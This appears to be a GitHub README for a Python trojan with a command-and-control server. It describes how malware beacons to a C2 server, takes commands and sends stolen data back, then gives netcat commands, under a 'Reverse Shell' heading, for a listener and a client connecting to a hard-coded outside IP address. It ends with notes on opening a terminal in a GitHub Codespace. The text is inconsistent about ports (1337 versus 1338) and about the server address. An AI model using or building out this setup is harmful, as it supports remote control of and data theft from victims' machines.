

## A simple implementation of a trojan malware in python with a C2 ( command and control ) server



A Command and Control (C2) server communicates with malware typically over a network using various protocols such as HTTP, HTTPS, TCP, UDP, or even DNS. The specific method of communication can vary greatly depending on the design of the malware and the C2 server.

Here's a simplified explanation of how a C2 server might send commands to malware:

The malware, once installed on a victim's machine, will attempt to establish a connection with the C2 server. This is often done at regular intervals, a behavior known as "beaconing".

The C2 server, upon receiving a connection from the malware, can send commands back to the malware. These commands are often encoded or encrypted in some way to avoid detection.

The malware receives the commands from the C2 server and decodes or decrypts them.

The malware then executes the commands on the victim's machine. This could involve actions like downloading additional malware, stealing data, or modifying system settings.

The results of the command execution (such as stolen data) may then be sent back to the C2 server by the malware.

# Reverse Shell to server

## Linux Server (<SERVER_IP>)

```bash
sudo apt update
sudo apt install netcat
```

Start a netcat listener on port `1338`:

`nc -lvnp 1338`

This command tells netcat to listen (-l) on port 1337, -v makes the operation more talkative (verbose), -n skips DNS name resolution, and -p specifies the port.

## On the macOS Client

`nc 172.191.13.20 1338`

This command tells `netcat` to connect to the server at IP address `SERVER_IP` on port `1338`.

# Accessing a Terminal in a GitHub Code Space via VS Code

Codespaces do not support reverse shell proxy.

Here's how you can access the integrated terminal in Visual Studio Code:

1. Open Visual Studio Code.
1. Connect to your Codespace. You can do this by clicking on the green "Codespaces" button in the lower left corner, then selecting your Codespace from the list.
1. Once you're connected to your Codespace, you can open the integrated terminal by selecting 
1. "Terminal" > "New Terminal" from the menu, or by pressing `Ctrl+`` (backtick) on your keyboard.